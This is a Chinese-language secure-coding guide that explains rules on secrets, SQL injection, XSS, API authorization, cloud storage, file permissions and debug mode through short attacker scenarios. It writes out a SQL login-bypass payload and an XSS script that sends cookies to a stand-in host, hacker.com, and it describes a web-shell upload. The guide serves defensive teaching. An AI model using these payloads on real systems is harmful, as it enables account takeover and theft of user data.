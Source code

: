 # VibeCoding 安全守则详解：为什么我们如此坚持？

这份文件解释了《安全守则》中每一条规则的重要性。理解这些，能帮助你从「黑客的视角」看待自己的程序代码，防患于未然。

---

## ⭐ 金科玉律

### 【绝不写死秘密】 & 【使用环境变量】 & 【忽略秘密文件】

**为什么重要？**

这三条是数位世界的最高生存法则。你的程序代码（尤其是在使用 Git 时）会在多个地方被复制、分享、储存。将密码、API 金钥等「秘密」直接写在程序代码里，就像是把保险箱的密码刺青在额头上，任何看到你的人（看到程序代码的人）都能轻易地打开你的保险箱。`.env` 文件是你的私人保险箱，`.gitignore` 则是确保这个保险箱不会被意外打包送人的保全系统。

**黑客剧本 😈**
> 我最喜欢在 GitHub 上搜寻 `password`、`api_key` 或 `db_connect`。我找到了你的公开项目，在一个叫做 `config.js` 的文件里，我看到了这样的程序代码：`const db_password = 'Password123!';`。太棒了，我甚至不需要攻击你的网站，我现在就可以直接尝试用这个密码登入你的数据库了。

**灾难后果 💥**

**服务完全被接管。** 黑客可以偷走、窜改、删除你所有的用户资料，或是利用你的付费 API 服务（例如：发送大量邮件、使用地图服务）来进行非法活动，而帐单全部由你支付。

---

## 📥 处理使用者输入

### 【防止注入攻击 (SQL Injection)】

**为什么重要？**

想像一下，数据库是一个只听得懂 SQL 语言的机器人。如果你把使用者的话（输入）直接跟你的命令拼接在一起，使用者就有机会说出他们自己的「命令」。参数化查询则是告诉机器人：「听着，接下来这段话**只是资料**，无论内容是什么，都不要当作命令来执行。」

**黑客剧本 😈**
> 我在你网站的登入框里，用户名称我输入了 `' OR '1'='1' --`。我猜你们的 SQL 查询是这样写的：`"SELECT * FROM users WHERE username = '" + userInput + "';" `。我的输入把它变成了 `SELECT * FROM users WHERE username = '' OR '1'='1' --';`。`'1'='1'` 永远是真的，所以我绕过了密码验证，成功登入了第一个用户（通常是管理员）的帐号。

**灾难后果 💥**

攻击者可以绕过登入、窃取整个数据库的资料（用户列表、密码 hash），甚至删除数据库。

### 【防止跨站脚本攻击 (XSS)】

**为什么重要？**

如果你的网站像一面镜子，直接反射出使用者输入的内容，那使用者就可以在内容中夹带恶意的 JavaScript 脚本。当其他用户浏览到这段内容时，这个恶意脚本就会在他们的浏览器上执行，窃取他们的信息。HTML 实体编码就是把恶意脚本中的特殊字元（如 `<`、`>`）转变成无害的纯文字，让它无法被执行。

**黑客剧本 😈**
> 我在你的文章评论区留了一段言：`<script>fetch('https://hacker.com/steal?cookie=' + document.cookie)</script>`。这段文字被原封不动地存进数据库。现在，任何读取这篇评论的用户，他们的浏览器都会自动执行这段脚本，将他们的登入 cookie 发送到我的服务器。我拿到了 cookie，就能冒充他们的身分登入网站。

**灾难后果 💥**

大规模的用户帐号被盗用、个资外泄、网站被植入钓鱼内容或挖矿脚本。

---

## 🔐 权限与认证

### 【API 端点保护】

**为什么重要？**

前端界面（UI）可以隐藏按钮，但黑客从不依赖界面。他们会直接用工具（如 Postman、curl）呼叫你后端的 API。你必须假设每个 API 端点都会被直接攻击，因此每个端点都必须是独立的守卫，自己检查来访者的身分和权限。

**黑客剧本 😈**
> 我发现要修改个人资料，前端会发送一个请求到 `/api/user/update`。虽然我看不到其他人的修改按钮，但我猜这个 API 可能是透过 `userId` 来区分用户的。我试着发送一个请求到 `/api/user/update?userId=1`（管理员的 ID），并附上我想修改的资料。天啊，服务器居然没有检查是不是我本人发出的请求，就成功把管理员的 email 改掉了！

**灾难后果 💥**

普通用户可以窜改其他用户甚至管理员的资料，或是执行他们不该有的权限，造成系统混乱。

---

## ☁️ 外部服务与云端整合

### 【外部数据库防火墙】 & 【云端储存私有化】

**为什么重要？**

你的云端数据库和储存空间，就像是你在云上的私人仓库。你绝不会把仓库的大门敞开，让全世界的人都能进来。防火墙和私有化设定，就是为你的仓库建立一道坚固的围墙和上锁的大门，只允许你的应用程序（指定的 IP 位址）这辆「授权货车」进出。

**黑客剧本 😈**
> 我用工具扫描了你们公司的 IP 段，发现一个 AWS S3 储存桶是「公开」的。我点进去一看，里面全是你们用户上传的身份证照片和公司合约的扫描档，所有文件列表一览无遗，我全部都下载了。

**灾难后果 💥**

所有储存的敏感资料（用户个资、公司机密文件）被一次性拖走，造成毁灭性的资料外泄事件。

---

## ⚙️ 文件与服务器设定

### 【绝不用 777】

**为什么重要？**

权限 `777` 的意思是「读、写、执行」权限对「拥有者、群组、其他人」全部开放。这就像是你家大门没上锁，而且还贴了张纸条写着「欢迎任何人进来居住、涂鸦、开派对」。如果黑客能上传一个文件，`777` 权限就等于给了他执行这个文件的权力。

**黑客剧本 😈**
> 我发现你们网站的图片上传功能有一个小漏洞，没有严格限制我上传的文件类型。我把一个叫 `shell.php` 的恶意后门程序，伪装成 `image.jpg.php` 上传了。因为你们的上传目录权限是 `777`，服务器允许我「执行」这个文件。我现在只要访问 `yoursite.com/uploads/shell.php`，就能在你们的服务器上为所欲为了。

**灾难后果 💥**

服务器被完全攻陷。黑客可以窃取所有程序代码和资料、将你的服务器变成发动网路攻击的僵尸主机，或植入勒索病毒。

### 【关闭侦错模式】

**为什么重要？**

侦错模式是开发时的好帮手，但在上线环境中，它就像一个喋喋不休的内鬼。当网站出错时，它会把服务器的内部路径、数据库查询语句、设定变量等极度敏感的信息，完整地显示在错误页面上，等于是给黑客提供了一份详细的攻击地图。

**黑客剧本 😈**
> 我故意在你网站的搜寻框输入一些特殊字元，让程序出错。网站立刻回传了一个详细的错误页面，上面写着 `Error in /var/www/html/app/models/User.php on line 52`，还附上了出错的 SQL 查询语句。我现在知道了你们的文件结构、使用的程序框架，甚至是资料表的名称。我的下一步攻击将会精准得多。

**灾难后果 💥**

泄漏大量内部系统信息，大幅降低黑客的攻击难度，让他们能更快地找到真正的漏洞。